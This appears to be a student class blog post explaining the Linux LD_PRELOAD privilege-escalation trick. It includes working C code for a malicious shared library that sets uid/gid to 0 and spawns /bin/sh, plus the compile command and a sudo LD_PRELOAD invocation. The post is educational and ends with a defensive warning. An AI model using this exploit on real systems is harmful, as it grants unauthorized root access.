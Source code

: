 ```yaml
---
title: LD_Preload trick 😈
toc: True
description: A proof of concept of how LD_Preload works and the different caviots. Showcases our understanding of the linux bash shell and commands and takes it one step further to understand lower-level linux knowledge
courses: {'csp': {'week': 3}}
type: hacks
---
```


# Hi👋👋👋👋

## So there's either two reasons your reading this:
1. You randomly stumbled upon our blog because you were bored or
2. Your Mr. Mortensen 

## So before we move on we will just give a little bit information about us:
1. We're supper into linux internals especially understanding it from the first calls of syscalls and glibc interaction with linux 
![csse](../student/images/kernel.png)

2. We've been competing in the field of computer science since a pretty young age. 

3. William has won multiple awards on both the national and state level for different competitions including fields with Cybersecurity and Hackathons.

4. Saaras has been teaching python in order to raise money for Akshaya Patra an organization dedicated to feeding children around the globe. Saaras is also well versed in linux systems.

## Ok so now that you know a little more on us let's talk about what this blog is for:
1. Ok so obviously this blog is gonna show our understanding of basic linux commands and everything relating to the Linux Shell bash tutorial because obviously we want a good grade on the pair review. However, this is something we're both experienced in and thus we're going to a little bit more in the theory behind what this blog is for.

## So now that that's out of the way, what're we doing 😈😈😈
1. Mkay so linux has the use of shared libraries, what are shared libraries???

### Shared Libraries
- Understanding Shared Libraries: In Unix-like systems, many programs rely on shared libraries (also known as dynamic link libraries) to perform various tasks. These libraries contain precompiled functions that programs can use. When a program is executed, the dynamic linker/loader (ld.so or ld-linux.so in Linux) loads these libraries into memory and resolves function calls to the appropriate library functions. Whereas staticly loaded libraries are quite literally embedded within the acutal executable. 

- An attacker with sufficient permissions (typically root or a user with sudo privileges) can set the LD_PRELOAD environment variable to specify a malicious shared library that they control. They can do this by exporting the variable in their shell session or by modifying the environment of a specific process. 

- So what if a normal user were compromised that was granted the sudo access to one binary, maybe to run a specific binary as that person or simply for inconvience? Well we can preload a malicious library with those permissions and escalate our permissions to sudo. But keep in mind we also need the loader to preserver the environmental changes in order to ensure that our malicious library runs

## Exploit


```python
%%script bash

# Let's check if we have the necessary things to do this vuln (show terminal showcase as it lags out jupyternotebook cell)
cd /tmp
cat <<EOF > /tmp/ldp.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
EOF

#Let's see what is in here now
cat /tmp/ldp.c
```

    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>
    void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
    }



```python
%%script bash
# Compiling the ldp.so into a library and dynamic load it into the LD_PRELOAD
gcc -fPIC -shared -o /tmp/ldp.so /tmp/ldp.c -nostartfiles
cat /tmp/ldp.c
#sudo LD_PRELOAD=/tmp/ldp.so /usr/bin/find
#i'll show case the end of what happens :)
```

    /tmp/ldp.c: In function ‘_init’:
    /tmp/ldp.c:6:1: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
        6 | setgid(0);
          | ^~~~~~
    /tmp/ldp.c:7:1: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
        7 | setuid(0);
          | ^~~~~~


    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>
    void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
    }


# Summary
- Basically what you should get away of this is NEVER EVER preserve your environmental variables because this allows for just people who have mini 
